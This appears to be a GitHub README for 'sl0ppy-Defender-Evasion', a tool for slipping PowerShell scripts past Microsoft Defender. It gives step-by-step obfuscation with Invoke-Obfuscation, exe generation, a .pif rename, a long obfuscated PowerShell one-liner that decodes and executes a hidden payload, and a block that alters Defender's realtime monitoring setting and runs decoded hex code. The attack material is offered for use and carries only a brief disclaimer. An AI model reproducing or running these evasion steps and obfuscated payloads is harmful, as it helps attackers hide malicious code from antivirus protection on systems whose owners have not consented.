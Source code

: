# sl0ppy-Defender-Evasion
Evasion of defender by x0r00t team sl0ppyr00t


# poc-png
![](https://github.com/x0xr00t/sl0ppy-defender-evasion/blob/main/pocbypassdefender.png)


# needed 
* `psexec`
* `invoke Obfuscation`
* `hex to ascii` 
* `ps1`
* `rename file` 

# how to
* `put 'whoami' in to ps1.`
* `open obfuscator dir in ps and enter 'Import-Module ./Invoke-Obfuscation.psd1' & 'Invoke-Obfuscation'`
* `settings to obfuscator 'encoding\8' + 'compress\1' + 'compress\1' +'compress\1' + 'compress\1' +last'encoding\8'`
* `open 'psexec.exe or run the ps1' and gen .exe from ps1 file 'set scriptpath C:\whatever/whatever.ps1' and output 'C:\whatever\'` 
* `rename out put .exe to sum.pif 'rename-Item -Path "sum.exe" -NewName "sum.pif"'`

# generated file to evade defender.
* sl0ppy-evade-defender.pif

# obfuscated ps code exec example
`. ((vaRiaBLE '*MDR*').NaME[3,11,2]-JoIn'') ([STriNg]::jOiN( '',( '28:20G4e-65G77:2d:6f-62u6aJ65q43-74q20-69J6fq2ep63J4fX6dp50-52:65X73p53G69J6fq6eu2eu64:45p66-4cp41-74u45u73-74X72-45X41G6dX28q5b:73p79-73J54J65:4d:2eq49p4fu2eJ4dp65p6dX6fG72G59u73q54u72:65u61J6dJ5d:5bu53X79-73-74J65q6d-2eX63q6f:4ep56q65:72X74J5dq3aq3a-66u72G6fG6dp42X61:73X65G36:34:53G74:72u49:6eu67-28G20:27G54X56J62:62-72-71G4fp34q46J76G79p56q50q49-7au55p76X65:55X35X32-39q77q78-49-38p31G44u45:6bX69J41p45-50p44u6dX46J70:4aq57u61:38u54:4eJ53X51-67u78X68J46G75X41p30u2f:50G76u68:33u34p37u62u30X75-71-35-5aq4b:58p58-61X74J55:33:2bp33u38p2fp52X38p6ep4dX62u56J74:74G31:70J35:5aJ38u2f-50u6a-35:39J33q35X33-50:72J50u47u74q58G38G7aq79G6a:73X6aJ38q7aX6aJ5au54u72-54X76:4f:36-4au6cp38:2fq76:36:39-2bG65u4a:50u58G61X63u64X50u6fu2fJ70X38p61-73:66-4bq6e:64u6fG46G69-4a-38J2fq56:7aJ2b:32X46G51p33G7aX78X76X2fu35u31G31G2bG6b:71-5a-36G62p32u4dX73-6cJ6f-65X33J63J75u37u33-2f:2fJ73G30J4eX73:79:78p52:36u6fq4f-47q6d-51G62u76X33X6eq57q39X72:39-77q49p53X42:46X72-35J4c-66u54-51G57q52G62J50-6fu37p47X58J54:71X46u72q75X4bp56-6fp46p38u62u63u57X6eq73-48J7ap6aq51:46:61:53u6bJ4b-4cX37u69u77:39u69q79p7aJ58q47J2bX49J45:46X73J41-65X57p48:6e-72X50X6bp62p63p6bG69-62q36p73X4dG77q69J4du43q47J57p6e-59J33p42u53X6a-4eq49p71:75-43:74q38:4aq51-39u4dq72G66p53-4f:50-41-6fX42G30u75J47X42p41J49u74X39p6fp57J45J77u36G51J47X45G6d:38:65J35q46X7ap2bG71q39p77q48-71:57-6b-2bG51q59q76J69J56X2bX7au34:4bq39u6bu6au56u45p4eG65p47q77:63-39p43u52J46:71p2fp68X70-52:51p6aJ5ap4au39:69-69X7a-68G66q52J6fq39:74-4cq33-4b:46-69G4bJ7au47G5aX42u56X2fG51-35q52G6fG67J4du6fX57J35G73-4eG6cG4fq59X70-52u57:67p53:58J67p57q63-59G43J74-2bp41X43J71-68X6bG62-50u77q59G38q36J49p2fX33u68p72:69:58-6aJ59X76:63X57X6eu4dq42p31u71:49q68q38q54q57u6dG30p4dp6eJ5a:66G56J47:4ep4cG7aJ2bX67X6fu50q65:6dq32J69X67J63G4fX69q4f:48q6bG45X67u39X36p49:32G37G43:36q53u72q74p48X42J76p45q54X6eu49X66q56J47:4d:6bX54q54J6cJ79u55q78:67p71u7a:31G71-61p69J4cq6e:41-6eq74u34u46:69:79:78-52X52X57G46-79G4d-51-54q78p4eX37G39X39J5aJ39p2bX79p57:4c-4fG58X76G54u37J54q51u33p70p61p37q31p52q49q56-54-43q52p38u30:35G2bJ6dp64u53-46q4e-35-70J35-78u34:74u6e-69u31-56J77:69u79J75J67-62q34q73p69-6fJ4cJ44J35:79X6du46-6dG38J51-30J61:4eX4dG6eJ2bu37:68q6fp64:4fp69u74u45X47:7aq70u54G31J7aG6c:68X6e:41:4e:6aG33X57J6bp39J71p6c-61J6dG7a:59J36q4bu74J62G68-6aX62J39u75q61G42J62X69-54-6au39p6cX79q74p55p48-6au4cu6fq50X4a:78p61-7au77G38X30p59u4fp79q51:59-43G72-6eq4eX45p77J44X4f-7aX4eG69G64q46p54p4f-58p34X4c:61q35G33p73G65:59J57p41J6eJ51:71:4fJ34X4aJ57u75:63:55u51p43q59X56G4dJ44-41X6dq35u6cJ6fq61X74-55q37:57J64J65X70-50G37-69X51G7aJ64G64X55p76:70G46p30u67X31p4fX76-56-64G43G68X36G70p70G33u49u75J38u4f:65J64G2bJ55-30u7aJ6cp44J61J6ep4eX57u62X7aJ76:4fG51u51J6aG70J68X38-70u66J53p47J55-68J50:7a:68-77X75-51q54q64:47X31X68X53G33-72u51J33X41J75p6ep4aq73X2f:79X6du46X75J79G6au57G73J39u39q33J58J49-75X31p4cJ35:43J75u55J6fJ45J42G35u6eG77:71G72X69-4bX63-4ap74u76q6c:6e:44X6aX63:74G30q35J36G45J37G6bq64J42-6fJ56J4e-7aX67p6dJ77q54p71q52-35X6bu4dG68X59X47J34:36u45:31:41p39-78u53:48u66G33:2fX4d:34p4b:6aG41X2bX76u70J77:51p76u63u69:39u47p63G33p47p41J41-63:54-69p5aq62u73q6ap35:76X6fq72q5au7a:47J73p57G36G45X51X33:54q61G41J62p4d:5ap5ap68-63J4cX78-68J35J55-4dp32J4a-44J77:44q53J49p65u79u34u36:33X39-78:65:49p4b-75q47q39X2fX44q49u41p68p39q64X62-63X66-6c:68p5au4dq55-57:48:44q79J79X4bG36X67X2f:44X71G58G32G6f:31q34:50p61p55G4f-58-6fG2fJ73p63J59-4c-4dX6cp6dq63J31p33-4cq74p57J78q67-71X4fX66X6cG33J72:59p73q7aJ66:36q32-5aJ38G63:30p50u75J71:4bu4fG41-6fp73X6eu75X36:2b:48:64p54u6dp74J79X66J63p45q67u42G44:72u62u4f:4ap70G30G73-57-43-52q47X4du75J72p7a-47X61G37J68p39X6eq6f:59X62u51-64u4eq39J61-69:6du45u74J4bq56p61p62J44p4fG67G30G58X49u5aG79X6fG48J55G6eq4c-74p46:42q6a-75G42-4c:47J72J59-31u62X48:56J44G79u64X63G43u32J43-78q2fG42u52p61X57:69X46u58p46X48J6ep2b:52G53:52-41J38q43-61X79J38X72p55p2f-76-4bu4ap6dG53q37X61-6cp54-35u75q48X45p73G58X32G54J4c-53u52X76-41:59-31:66u30-2bG34p72u51p4fp49u58J6cq73X65p62u42X57q70q2bq7ap4fq52-49X62-39p58q37X58:75q35p41-6dG70q44G5au39X70X46X68:69J6aG43q57p32J4c-64G36u68q7aX62p7ap39-68u34q59u71-74p37:74G42-71q66:54p48q30p2b-6bu4f-73-69u52u6fp34-77G36:44G61:6dJ4cp30-74u34q46G69:2bG48J70u49J33-59p41q32q68-4ep73G58J73q71:38p39J65G4dG36u59p7aq2bu6dX4c-56p58-65J6cq62G6b-35q55-5ap4f:41p69X6e-65u73J77q43q70X64G35u59G30q2fu53-59u43J30G53u59X47X4fq64J76u57-4bG45G79:66J45X49u57q4d:6a:6fG4fJ6bu2bq65G65:78G44p65:79q71p34:6cG5aq7a-39q2f:58J59-59q6a:4d:55-4a-77J45-67G74u53q63q5a:43p70X70-56J4d-6dJ7aJ33p50p52X5aG7au56:6ap4fJ44G34J4du32u68:73J46u46X5aG56:75-7aJ69:76X4a:44:34u54p4ap77-56J66u52-62G4dq6e-44X38-62G39X79G42:75J57:32J79G38:6aJ30X64J69G54:7ap4f:2fu4b:47p59u52J76-43:6a:5aJ50-62-6e:45J73:65J70G31q68q62X64G49J73q4c:38:54p58q4ap72G42u4f-62X77-45J39J6dG2fG57u72u43p77q73G2b:77:53:6bG69J51u48G35-41p55G48J2fp6aJ38G43J6bp71J59X77q66G4eG74-68q48p6cJ73u38X71-6fu57-48q54J58p51-42:46-69p78p38u75q45J64J75J4c-4c-47u61q76J59q64q63-56p61X2fX39X35G57J78:4c:6fX62q46G32X42q4bJ6du47:63X59:41p71q34J39:68q52-41G6bq31p51J50p71p43p59:53:30:2bq74q67p57:30:42q35X65p58u37:76G31:4dq4eX42p4e-59J48p4dp6eX4fp6dX65q6a:36p7ap43J41p63-38-54G6d:4aJ35J68G76-50-75:6f:44:72:32q36G6f:65X4a:6f-7ap72-44u48G6fJ2bp68X2fp65u4c:43:4c:76X69p4dJ56-55p47J6b:6fJ72:6b:4a:55p6aX7aq6cX62u7aG4du30J41-4aX58J41-44G55-76X34u72p62u51J78u72J50J63u33-78:70G46p70-37:74G48-64J47X53J45q63X72q72:37-69p73J48J76q2bq32u56G4cX46X45:4e:52J74-6au30-46:72J75-71p4f-38p76:4c-6cu4dp54X78G67X47:4bu72G6fX34q53G70J50X79G43J56G70:4b:64X38X41:61-75:37G68:34:5au77q6fu72J75:34u49q6cG34G73:6bG4aJ6ep49-50-53:7aX58p47u74q6aX36G77q49J4bq5aq6eu67:4dX32:78X6aX77p66G2bp44X67X31:6au33J67-50q37:45J4fG73:50:47p70-51q33G38-68p44q46u75p72X45u76:4aJ77-54J34u6aX42-74q47-52G77q6a-6cu39-41:48u56-5ap36q5aJ49p38X36q67p77:55q58q39X4aJ54-58u47X4b-61J46u4fJ64G54G77u54q55-79p52:6ap42p31q75G52-76-2b-6dX77u4dX75:43G78q38-4d-6fp61X6c:4fJ44X5au46q33p6dp79u7aJ65-61-62X6bG6bp49G4b:74p34u70X52q7a-39q31G52p35:72p32G66J49X6cp57u53-61J41q5ap32J4fG49J56J79p44J39G57:41G55q71-44G77J36q5au7a-76J33:48p45q54J45q30J33p34X4e:48q33G31:47G55:55J41J33p66:53-62u58u35p4fX6fu75u6aG70-64p57-51-6du68G43J54G69J6a-70p4fJ46p50X4b-76X2b-51q36q6fq48u7aX34X4a:4eG52-6dp2f-62G49u35u5aq54u56q2fp5aG4cq71-68G43J38X2fp6b-56u76q45q53q32J54-64G76p66p6e:69-6cp6eG6fp6eJ6bq35p41G37-50X2fJ48X77J35G64-54q4eJ49-43J37:6bp65X6eX71:4eq55J66J4cJ48X59:54p62p69G68G32J59G6f-6ep48q65J64J4dG68:4cq41G6fq50p39G70:70p72q31G53u39J76-61u55X34:6f-6f:4eq54X73G39:57p41G2f-4a:66p2f:67-4dX70G6c-5ap48X59-6b-70G4c:4eJ35:51:32:63q4cG42J49q70u52J37q49:6eq6fq73q31J55J4dX72G30X36q53:53J49G44u44p2fJ4eJ73J6cX6ep43G4au53u4f:54J2fG4ep4f:35q71:6f-55:6fX7au6cJ65J31-39:30X6aq6au4b-59:41G77p61:57p38q4b:62J62p76J74:32:67-52p53u55-69:76G4dq46u51:48p6du52q69G31u51u77p36G6bp5aq6d:6eq33q4cX43J72p45q4aG2bu37q51G31q50G6d-35p4dp35:45J76p7ap30q51J7aX72G57p56u50:33G6c:46p68p71p65u72G74u4c-63J6dJ62X4eX32J58:47p72-65p7au68q43q4eu35p6c:6e:4fp72u53:36G63X2bu62-44:67G72X6cX48q73u43p32u44G51J71u46J32X66J4e-58q74-33G77G55q50G4bu43:79u59:64p52q6dJ66u50G6b-4e:6e-74:79X62X78p56:6fp2bJ2fG37G37G37p32-2bG72q6ap7ap39G58u50p77u7aX6e-4dp36:32:65-32u4dG31q62p7au33u44-6fu5aG2b:6f-63J63q61G50u39q72-75:32u6aJ6bq2bX56:4c-53:46J44G7aJ42J61:39J2fX34u36-75G50-31:53X2fG69u4eu4eJ6fJ36u31u66u2fq37p66J33X6dq6bp50J62:65u2bJ39G76J78p63p69u44X7au66p7aX64q66G48q4au58q2bu6fG57q76X4eq39-39-63q63:2f:71J7a-39q2fq2f:41q62:7ap35-36:65q76-52p66u36J6eJ5a:71-64J4fG74-73u53G4dq68u54-52J75:74u2fX66u37u78G37q2bu72-58u36p75J64u73:2f:51X76p68q48:2fp38q38u2b-6c-71p36J38q79-76p63u71q70G2bX2fG31p6aq39-75p2f-72G34X74G66X70X63-4cq53p79q34-76:56G56q50p37X51X66p48u2fq67-53X2f:61:2b:65J6fG2f:65G43-5au6e-2bu44-62p2bX4fG33-6aJ66q77J3dJ3dG27:20J29G20u2c:20q5bu73X79J53u54u45-6dJ2eu69-4fG2ep43X6f:4d-50X72J45p53q53J69J4f-6e-2e-43p4fu4dJ50q72X65p53:53G69p4f:4eX6d-4fu64X45p5d-3aq3a-64p65-63:6f-4dX70u52-45u53q73X20u29-20-7cq46J6f:52u45u61J63:48:2d-4f-42J6ap65:43q74u7b:4e:65-77q2dq6fJ62p6a:65q43X74p20:20:69:4f-2e-53J74q52q65q61:6dp72p45q61J64-65-52:28:24X5fq20-2cJ20G5bJ53X59:53q74p65:6dp2eq74p65-58:74u2e:65J4eq43q4fG44J69-4eG47J5dq3aX3aJ41q73u63q49J69J29u7dJ20:29J2eu72p45:41:64X74-6fJ65J4ep44J28:20q29p7c:2eX20-28u28:76p41X52X69J41u62G6cG65G20G27-2aJ6du64G52G2au27q29p2eq6eq61X4d:65:5bq33q2c:31J31J2cu32q5dJ2d-4a-4fJ49p6ep27G27J29'.spLit('pXGu:-Jq')| ForeaCH{ ([coNveRT]::TOInt16( ( [sTRIng]$_ ) , 16 ) -AS[Char])} )) )| powershell $() `


# powershell code 
* `PowerShell Set-MpPreference -DisableRealtimeMonitoring 0`
* `sleep 5`
* `$hexString = "27 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 0A 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 27 7C 20 46 4F 52 65 41 63 68 2D 6F 62 4A 65 63 54 7B 24 70 46 6B 4D 51 6F 64 3D 20 24 5F 20 2D 53 70 4C 69 74 20 27 20 20 20 20 20 20 20 20 20 20 20 20 20 20 20 27 20 7C 20 46 4F 52 65 41 63 68 2D 6F 62 4A 65 63 54 7B 20 27 20 20 27 3B 20 24 5F 2E 53 70 4C 49 54 28 27 20 20 20 20 27 29 7C 46 4F 52 65 41 63 68 2D 6F 62 4A 65 63 54 7B 24 5F 2E 4C 45 4E 67 54 48 2D 31 20 7D 20 7D 20 3B 26 20 28 20 27 27 2E 69 6E 64 45 58 6F 66 2E 74 4F 53 54 52 49 6E 67 28 29 5B 31 34 35 2C 36 31 2C 36 32 5D 2D 4A 6F 49 4E 27 27 29 28 5B 63 68 61 72 5B 5D 5D 20 5B 69 6E 74 5B 5D 5D 20 28 20 24 70 46 6B 4D 51 6F 64 5B 30 2E 2E 28 24 70 46 6B 4D 51 6F 64 2E 4C 45 4E 67 54 48 2D 31 29 5D 20 2D 4A 6F 49 6E 20 27 27 20 29 2E 54 52 49 6D 73 54 41 52 74 28 27 20 20 20 20 20 20 20 27 20 29 2E 53 70 4C 49 54 28 20 27 20 20 20 27 20 29 2D 4A 6F 49 6E 27 27 20 29 7D 7C 20 70 6F 77 65 72 73 68 65 6C 6C 20 24 28 29"`
* `$asciiChars = $hexString -split ' ' |ForEach-Object {[char][byte]"0x$_"}`
* `$asciiString = $asciiChars -join ''`
* `powershell $() $asciiString`

# Legal Disclaimer: 
* I am not responsible for U using it on non authorized systems, make sure u use it on systems u own or are authorized on. 

* x0xr00t 
